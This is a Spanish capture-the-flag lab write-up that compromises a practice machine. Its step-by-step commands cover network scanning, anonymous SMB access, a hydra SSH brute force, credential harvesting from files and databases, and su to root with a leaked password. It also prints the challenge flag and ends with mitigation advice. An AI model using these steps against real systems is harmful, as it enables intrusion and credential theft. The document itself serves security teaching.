## Información General

|Campo|Valor|
|---|---|
|**Plataforma**|whoami-labs|
|**Dificultad**|Fácil|
|**IP Objetivo**|172.17.0.2|
|**Autor**|elc0ket|

---

## Resumen del Ataque

Vulnerable 1 es la máquina más extensa, con una superficie de ataque amplia (9 puertos abiertos: FTP, SSH, Telnet, HTTP, SMB, MySQL, distcc y PostgreSQL) que se resuelve, sin embargo, mediante una cadena bastante lineal de **exposición de credenciales en cascada**.

El punto de entrada es un recurso compartido SMB (`cosmos`) con permisos de escritura y lectura para cualquier usuario (sesión NULL), que contiene un archivo `passwords.txt` con 3 pares de credenciales en texto claro. Tras normalizar esas credenciales en wordlists de usuario/contraseña, un ataque de fuerza bruta con `hydra` contra SSH concede acceso como `seiya`. Dentro de su home hay un segundo archivo de credenciales oculto (`.passwords.txt`) con **más pares de usuario/contraseña**, incluyendo la contraseña de `root` en texto claro (aunque no se usa directamente) y credenciales de bases de datos.

Con esas credenciales se hace un salto lateral (`su shiryu`) y luego se enumeran **dos motores de bases de datos distintos** (PostgreSQL con el usuario `hades`, MySQL con el usuario `athena`), ambos con tablas `users` que exponen aún más credenciales reutilizadas entre sistemas. Finalmente, la contraseña de root filtrada en el archivo `.passwords.txt` (`athena123`) permite escalar directamente con `su root`, sin necesidad de exploits de kernel ni binarios SUID.

**Vector de compromiso:** SMB sin autenticación → filtración de credenciales → brute force SSH → archivo de credenciales oculto en home de usuario → salto lateral (su) → enumeración de PostgreSQL/MySQL → credencial de root filtrada → `su root`.

---

## Técnicas Usadas

|Fase|Técnica|Herramienta|
|---|---|---|
|Reconocimiento|Escaneo de puertos completo (TCP SYN)|`nmap -p- -sS`|
|Reconocimiento|Detección de versiones y scripts por defecto|`nmap -sC -sV`|
|Enumeración FTP|Verificación de login anónimo|`ftp`|
|Enumeración SMB|Enumeración de usuarios, shares y sesiones NULL|`enum4linux -a`|
|Enumeración SMB|Mapeo de permisos de recursos compartidos|`smbmap`|
|Enumeración SMB|Conexión y descarga de archivos vía sesión NULL|`smbclient`|
|Recolección de credenciales|Extracción de archivo de credenciales en texto claro desde SMB|`cat` / `get`|
|Preparación de ataque|Separación de wordlists usuario/contraseña|`cut -d: -f1/-f2`|
|Acceso inicial|Ataque de fuerza bruta contra SSH|`hydra`|
|Post-explotación|Enumeración de usuarios del sistema|`/etc/passwd`|
|Post-explotación|Descubrimiento de segundo archivo de credenciales oculto en home de usuario|`cat .passwords.txt`|
|Movimiento lateral|Cambio de usuario con credencial filtrada|`su`|
|Enumeración de base de datos|Conexión y enumeración de PostgreSQL|`psql`|
|Enumeración de base de datos|Conexión y enumeración de MySQL/MariaDB|`mysql`|
|Escalada de privilegios|Uso de contraseña de root filtrada en archivo de credenciales|`su root`|

---

## Desarrollo

### 1. Reconocimiento de puertos

```
nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 172.17.0.2
```



### 2. Detección de servicios y versiones

```
nmap -p 21,22,23,80,139,445,3306,3632,5432 -sC -sV -oN allports 172.17.0.2
```




Hallazgos clave: `vsftpd 3.0.3` con **anonymous FTP login allowed**, `Samba smbd 4.9.5-Debian`, `MariaDB 5.5.5-10.3.39`, `PostgreSQL 11.19-11.22`, y `distccd`.
### 3. Verificación de FTP anónimo



El login anónimo es exitoso, pero el directorio raíz está vacío — sin archivos que exfiltrar por esta vía.
### 4. Enumeración SMB

```
enum4linux -a 172.17.0.2
```



```
smbmap -H 172.17.0.2
```



El recurso `cosmos` es accesible en lectura y escritura mediante sesión NULL (sin autenticación).

### 5. Extracción de credenciales vía SMB

```
smbclient //172.17.0.2/cosmos -N
smb: \> ls
```



```
smb: \> get passwords.txt
```

```
cat passwords.txt
```



### 6. Preparación de wordlists y ataque de fuerza bruta

```bash
cut -d: -f1 passwords.txt > users.txt
cut -d: -f2 passwords.txt > pass.txt
```

```bash
hydra -L users.txt -P pass.txt ssh://172.17.0.2 -t 64 -f
```



### 7. Acceso inicial vía SSH

```
ssh seiya@172.17.0.2
whoami
```



### 8. Descubrimiento de segundo archivo de credenciales

```
ls -la
```



```
cat .passwords.txt
```



Un segundo archivo, oculto y con más credenciales — incluida la contraseña de `root` en texto claro, aunque camuflada como una entrada más de la lista en vez de destacarse.
### 9. Movimiento lateral

```
su shiryu
whoami
```



### 10. Enumeración de PostgreSQL

```
psql -h localhost -U hades -d postgres
\l
\c codelab
\dt
SELECT * FROM users;
```



### 11. Enumeración de MySQL/MariaDB

```
mysql -u athena -pcosmo -h localhost
show databases;
use sanctuary;
show tables;
select * from users;
```



Se confirma que la contraseña de `admin` en la tabla `sanctuary.users` (`athena123`) coincide exactamente con la contraseña de `root` filtrada en `.passwords.txt` — fuerte indicio de reutilización de credenciales entre el sistema operativo y la capa de aplicación.
### 12. Escalada final a root

```
su root
# Password: athena123
whoami
# root

cd /root
cat flag.txt
```




**Flag:** `FLAG{4th3n4_pr0t3ct5_th3_s4nctuary_0f_vuln3r4b1l1ty}`

---

## Lecciones Aprendidas

- **Una sesión SMB NULL con permisos de escritura sobre un recurso compartido es, en la práctica, tan crítica como una credencial filtrada** — no hizo falta ninguna autenticación para acceder al archivo `passwords.txt`.
- **Los archivos ocultos (`.` al inicio del nombre) no ofrecen ninguna protección real**, solo los omiten los listados por defecto de `ls`; cualquier `ls -la` los revela de inmediato. Nunca deben usarse como mecanismo de "seguridad por oscuridad" para credenciales.
- **La reutilización de contraseñas entre el sistema operativo y las bases de datos de aplicación es el patrón central de esta máquina.** La contraseña de `root` del sistema (`athena123`) resultó ser idéntica a la contraseña del usuario `admin` en la tabla `sanctuary.users` de MySQL — una coincidencia que en un entorno real sería una señal clarísima de mala higiene de credenciales.
- **Enumerar múltiples motores de base de datos en la misma máquina multiplica la superficie de fuga de credenciales.** Cada motor (PostgreSQL, MySQL) tenía su propia tabla `users` con credenciales parcialmente solapadas, lo que permitió correlacionar y confirmar contraseñas entre sistemas.
- **`su` con una contraseña filtrada sigue siendo un vector de escalada perfectamente válido** — no todo privesc requiere SUID, sudo mal configurado o exploits de kernel; a veces la credencial correcta ya está en un archivo de texto esperando ser leída.

---

## Medidas de Mitigación

|Hallazgo|Riesgo|Recomendación|
|---|---|---|
|Recurso SMB (`cosmos`) accesible con sesión NULL y permisos de escritura|Crítico|Deshabilitar acceso anónimo/NULL a recursos SMB (`smb.conf`: `map to guest = never`, restringir `guest ok = no`); aplicar autenticación obligatoria y principio de mínimo privilegio en los shares.|
|Credenciales almacenadas en texto claro en un recurso compartido de red|Crítico|Nunca almacenar credenciales en texto claro en ningún recurso accesible por red, autenticado o no. Usar gestores de secretos (Vault, AWS Secrets Manager, etc.).|
|Archivo de credenciales oculto en el home de un usuario, incluyendo la contraseña de root|Crítico|Nunca almacenar la contraseña de root (ni de ningún usuario) en archivos de texto plano en el sistema de archivos, sin importar los permisos o la visibilidad del archivo.|
|Login anónimo habilitado en FTP (vsftpd)|Medio|Deshabilitar `anonymous_enable=YES` en `vsftpd.conf` salvo que sea estrictamente necesario, y en ese caso restringir a un directorio sin datos sensibles.|
|Reutilización de contraseñas entre el sistema operativo y bases de datos de aplicación|Alto|Aplicar políticas de contraseñas únicas por sistema/servicio; nunca reutilizar la contraseña de una cuenta administrativa del SO en cuentas de aplicación.|
|SSH sin protección ante fuerza bruta|Alto|Implementar `fail2ban`, limitar intentos de autenticación, y preferir autenticación por clave pública sobre contraseña.|
|Exposición de banners de versión en múltiples servicios (FTP, SSH, HTTP, SMB, MySQL, PostgreSQL)|Bajo|Minimizar el fingerprinting ocultando versiones donde sea posible, aunque la mitigación real siempre es mantener los servicios parcheados y actualizados.|
|Servicio `distccd` expuesto (histórico vector de RCE en versiones antiguas)|Medio-Alto|Auditar la necesidad de exponer `distccd` en la red; si es imprescindible, restringir acceso por firewall/IP y mantenerlo actualizado.|